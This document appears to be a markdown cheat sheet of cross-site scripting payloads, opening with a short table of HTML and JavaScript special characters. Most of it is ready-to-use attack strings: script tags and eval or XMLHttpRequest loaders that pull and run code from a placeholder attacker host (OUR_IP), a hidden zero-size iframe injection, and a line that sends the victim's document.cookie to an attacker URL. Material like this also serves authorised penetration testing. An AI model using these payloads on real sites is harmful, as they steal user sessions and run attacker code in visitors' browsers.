 # References

### references: special characters for HTML and javascript
```
< > - used to denote HTML elements 
' " - strings
{ } - javascript function declarations
;   - end of statement
```
---

# Payloads

### script: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### script: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### script: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---
